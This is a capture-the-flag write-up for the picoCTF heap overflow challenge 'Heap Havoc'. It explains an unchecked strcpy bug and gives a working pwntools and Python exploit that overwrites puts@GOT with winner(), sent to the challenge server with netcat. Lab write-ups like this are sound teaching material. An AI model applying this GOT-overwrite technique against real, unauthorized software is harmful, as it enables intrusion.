






# Heap Havoc

**Category:** Binary Exploitation
**Difficulty:** Hard
**Author:** Yahaya Meddy

---

## Challenge Description

The challenge gives us a program that takes two names as input.

At first, it looks like a simple program, but the important part is how those names are allocated and copied on the heap.

The goal is to redirect execution to a hidden function that prints the flag.

---

## Source Code Analysis

I started by reviewing the source code.



The program defines the following structure:

```c
struct internet {
    int priority;
    char *name;
    void (*callback)();
};
```

This structure contains:

```text
priority  -> integer
name      -> pointer to a heap buffer
callback  -> function pointer
```

The interesting hidden function is `winner()`:

```c
void winner() {
    FILE *fp;
    char flag[256];

    fp = fopen("flag.txt", "r");
    if (fp == NULL) {
        perror("Error opening flag.txt");
        exit(1);
    }

    if (fgets(flag, sizeof(flag), fp) != NULL) {
        printf("FLAG: %s\n", flag);
    } else {
        printf("Error reading flag\n");
    }

    fclose(fp);
}
```

This function opens `flag.txt`, reads the flag, and prints it.

However, `winner()` is never called directly.

The vulnerable part is inside `main()`:

```c
i1 = malloc(sizeof(struct internet));
i1->priority = 1;
i1->name = malloc(8);
i1->callback = NULL;

i2 = malloc(sizeof(struct internet));
i2->priority = 2;
i2->name = malloc(8);
i2->callback = NULL;

strcpy(i1->name, argv[1]);
strcpy(i2->name, argv[2]);
```

The bug is here:

```c
i1->name = malloc(8);
i2->name = malloc(8);

strcpy(i1->name, argv[1]);
strcpy(i2->name, argv[2]);
```

Both `name` buffers are only `8` bytes, but `strcpy()` copies user input without checking the size.

This creates a heap overflow.

At the end, the program checks the callback pointers:

```c
if (i1->callback) i1->callback();
if (i2->callback) i2->callback();

printf("No winners this time, try again!\n");
```

The presence of function pointers and heap allocations suggests that overwriting pointers can redirect execution.

---

## Binary Information

I checked the binary with:

```bash
file ./vuln
checksec --file=./vuln
```



The binary is:

```text
ELF 32-bit LSB executable
Intel i386
dynamically linked
not stripped
```

The security protections are:

```text
Partial RELRO
No canary found
NX enabled
No PIE
Not stripped
```

Important points:

* The binary is **32-bit**, so addresses are 4 bytes.
* We will use `p32()` for address packing.
* **No PIE** means addresses inside the binary are static.
* **Partial RELRO** means the GOT is writable.
* The binary is **not stripped**, so symbols like `winner` are easy to find.

Partial RELRO is especially important because the challenge hint mentions `objdump -R`, which is used to locate dynamic relocation entries such as GOT addresses.

---

## Finding the Address of `winner()`

To find the address of the hidden function, I used:

```bash
objdump -d ./vuln | grep -A12 '<winner>'
```



The output showed:

```text
080492b6 <winner>:
```

So:

```text
winner = 0x080492b6
```

This is the function we want the program to execute.

---

## Finding `puts@GOT`

The challenge hint says:

```text
objdump -R can help to locate dynamic symbols like puts.
```

So I used:

```bash
objdump -R ./vuln | grep puts
```



The output showed:

```text
0804c028 R_386_JUMP_SLOT   puts@GLIBC_2.0
```

So:

```text
puts@GOT = 0x0804c028
```

This address is writable because the binary has Partial RELRO.

The plan is to overwrite `puts@GOT` with the address of `winner()`.

Then, when the program tries to call `puts()`, execution will jump to `winner()` instead.

---

## Understanding the Heap Layout

The important allocations are:

```c
i1 = malloc(sizeof(struct internet));
i1->name = malloc(8);

i2 = malloc(sizeof(struct internet));
i2->name = malloc(8);
```

The heap layout is expected to look like this:

```text
i1 struct
i1->name buffer
i2 struct
i2->name buffer
```

The overflow happens from `i1->name`.

The goal is to overwrite the `name` pointer inside `i2`.

If we overwrite `i2->name` with the address of `puts@GOT`, then the second `strcpy()` becomes very useful:

```c
strcpy(i2->name, argv[2]);
```

Because `i2->name` will point to `puts@GOT`, this line will write `argv[2]` directly into the GOT entry of `puts`.

So the exploit strategy becomes:

```text
argv[1] overflows i1->name and overwrites i2->name with puts@GOT.
argv[2] is copied into i2->name, which now points to puts@GOT.
Therefore argv[2] overwrites puts@GOT with winner().
```

---

## Struct Offsets

To understand the structure layout, I calculated the offsets of the fields.



The output showed:

```text
offsetof(priority) = 0x0
offsetof(name)     = 0x4
offsetof(callback) = 0x8
sizeof(struct)     = 0xc
```

Since the binary is 32-bit, pointers are 4 bytes.

The `name` field inside the struct is located at offset:

```text
0x4
```

---

## Calculating the Heap Overflow Offset

The buffer `i1->name` is allocated with:

```c
malloc(8)
```

On this 32-bit heap layout, the small heap chunk is aligned to a chunk size of:

```text
0x10
```

The target field is `i2->name`, which is at offset:

```text
0x4
```

from the beginning of the `i2` struct.

So the distance from the start of `i1->name` to `i2->name` is:

```text
0x10 + 0x4 = 0x14
```

I confirmed the calculation with a hexadecimal calculator.


The result is:

```text
0x14 = 20
```

So the first payload must be:

```python
b"A" * 20 + p32(puts_got)
```

This overwrites `i2->name` with the address of `puts@GOT`.

---

## Exploit Strategy

At this point, I had the needed values:

```text
winner()  = 0x080492b6
puts@GOT  = 0x0804c028
offset    = 20
```

The exploit needs two arguments.

The first argument:

```python
argv1 = b"A" * 20 + p32(puts_got)
```

This overflows `i1->name` and makes `i2->name` point to `puts@GOT`.

The second argument:

```python
argv2 = p32(winner)
```

This is copied into `i2->name`, which now points to `puts@GOT`.

Therefore, it overwrites `puts@GOT` with the address of `winner()`.

When the program later calls `puts()`, it jumps to `winner()` and prints the flag.

---

## Local Exploit Test

Before attacking the remote service, I created a local fake flag:

```bash
echo 'picoCTF{local_test_flag}' > flag.txt
```

Then I tested the exploit locally:

```python
from pwn import *

PUTS_GOT = 0x0804c028
WINNER   = 0x080492b6

argv1 = b"A" * 20 + p32(PUTS_GOT)
argv2 = p32(WINNER)

p = process(["./vuln", argv1, argv2])
print(p.recvall(timeout=2).decode(errors="ignore"))
```



The output showed:

```text
FLAG: picoCTF{local_test_flag}
```

This confirmed that the heap overflow successfully redirected execution to `winner()`.

---

## Remote Exploit

The remote service was running at:

```text
foggy-cliff.picoctf.net 50509
```

The remote program asks:

```text
Enter two names separated by space:
```

So the payload must be sent as:

```text
<argv1> <argv2>
```

I used the following exploit script:

```python
#!/usr/bin/env python3
import sys


PUTS_GOT = 0x0804C028
WINNER = 0x080492B6


def p32(value: int) -> bytes:
    return value.to_bytes(4, "little")


def main() -> int:
    payload = b"A" * 20 + p32(PUTS_GOT) + b" " + p32(WINNER) + b"\n"
    sys.stdout.buffer.write(payload)
    return 0


if __name__ == "__main__":
    raise SystemExit(main())
```

Then I sent it to the remote service:

```bash
python3 solve.py | nc foggy-cliff.picoctf.net 50509
```


The service executed `winner()` and printed the flag.

---

## Final Exploit Script

```python
#!/usr/bin/env python3
import sys


PUTS_GOT = 0x0804C028
WINNER = 0x080492B6


def p32(value: int) -> bytes:
    return value.to_bytes(4, "little")


def main() -> int:
    payload = b"A" * 20 + p32(PUTS_GOT) + b" " + p32(WINNER) + b"\n"
    sys.stdout.buffer.write(payload)
    return 0


if __name__ == "__main__":
    raise SystemExit(main())
```

Run it with:

```bash
python3 solve.py | nc foggy-cliff.picoctf.net 50509
```

---

## Solution Summary

```text
1. Review the source code.
2. Notice that i1->name and i2->name are allocated with malloc(8).
3. Notice that strcpy() copies argv[1] and argv[2] without bounds checking.
4. Identify winner() as the function that prints flag.txt.
5. Check binary protections:
   - 32-bit
   - Partial RELRO
   - No PIE
   - No canary
6. Find winner():
   winner = 0x080492b6
7. Find puts@GOT:
   puts@GOT = 0x0804c028
8. Calculate the heap overflow offset:
   0x10 + 0x4 = 0x14 = 20 bytes
9. Use argv[1] to overwrite i2->name with puts@GOT.
10. Use argv[2] to overwrite puts@GOT with winner().
11. Trigger puts().
12. The program jumps to winner() and prints the flag.
```

---

## Tools Used

```text
file
checksec
objdump
objdump -R
pwntools
Python
netcat
Hexadecimal calculator
```

---

## Key Takeaways

* Heap overflows can corrupt nearby heap objects.
* Small heap chunks are aligned, so the real heap distance can be larger than the requested allocation size.
* In a 32-bit binary, pointers are 4 bytes.
* Partial RELRO leaves the GOT writable.
* Overwriting a GOT entry can redirect future function calls.
* Here, `puts@GOT` was overwritten with `winner()`.
* The second `strcpy()` became a write-what-where primitive after corrupting `i2->name`.

---

## Final Flag

```text
picoCTF{...REDACTED...}
```
